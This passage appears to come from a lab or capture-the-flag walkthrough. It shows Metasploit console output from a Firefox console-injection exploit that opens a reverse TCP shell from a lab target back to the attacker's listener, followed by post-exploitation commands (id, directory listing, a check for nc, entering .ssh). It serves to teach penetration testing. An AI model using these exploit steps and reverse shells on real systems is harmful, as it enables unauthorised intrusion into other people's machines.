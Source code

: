 [*] Started reverse TCP handler on 192.168.110.128:4444 
[*] Using URL: http://0.0.0.0:8080/sneaky
[*] Local IP: http://192.168.110.128:8080/sneaky
[*] Server started.
msf exploit(firefox_tostring_console_injection) > [*] 192.168.110.151  firefox_tostring_console_injection - Gathering target information.
[*] 192.168.110.151  firefox_tostring_console_injection - Sending HTML response.
[*] Command shell session 3 opened (192.168.110.128:4444 -> 192.168.110.151:34660) at 2016-06-25 16:15:49 +0100

At this point, I had popped a shell, so went to take a look around:

```
msf exploit(firefox_tostring_console_injection) > sessions -l

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  3   shell firefox               192.168.110.128:4444 -> 192.168.110.151:34660 (192.168.110.151)

msf exploit(firefox_tostring_console_injection) > sessions -i 3
[*] Starting interaction with 3...

id
uid=1000(peter) gid=1000(peter) groups=1000(peter),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(scanner),115(bluetooth),1003(fishermen)
ls -la
total 108
drwxr-xr-x 19 peter peter 4096 Jun 19 16:42 .
drwxr-xr-x  5 root  root  4096 Jun 19 16:42 ..
-rw-------  1 peter peter  113 Jun 21 10:49 .bash_history
-rw-r--r--  1 peter peter  220 Jun 14 15:55 .bash_logout
-rw-r--r--  1 peter peter 3515 Jun 14 15:55 .bashrc
drwx------  7 peter peter 4096 Jun 19 16:42 .cache
drwx------ 12 peter peter 4096 Jun 19 16:42 .config
drwx------  3 peter peter 4096 Jun 19 16:42 .dbus
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Desktop
-rw-------  1 peter peter   26 Jun 18 18:57 .dmrc
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Documents
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Downloads
-rwxrwxrwx  1 root  root   118 Jun 19 16:10 firefox.sh
drwx------  3 peter peter 4096 Jun 19 16:42 .gconf
drwx------  2 peter peter 4096 Jun 19 16:42 .gnupg
-rw-------  1 peter peter  636 Jun 14 15:59 .ICEauthority
drwx------  4 peter peter 4096 Jun 19 16:42 .kde
drwx------  3 peter peter 4096 Jun 19 16:42 .local
drwx------  4 peter peter 4096 Jun 19 16:42 .mozilla
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Music
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Pictures
-rw-r--r--  1 peter peter  675 Jun 14 15:55 .profile
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Public
-rw-r--r--  1 peter peter   66 Jun 15 11:47 .selected_editor
drwx------  2 peter peter 4096 Jun 19 16:42 .ssh
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Templates
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Videos
-rw-------  1 peter peter    0 Jun 18 19:13 .Xauthority
which nc
/bin/nc
cd .ssh
ls
Desktop
Documents
Downloads
```
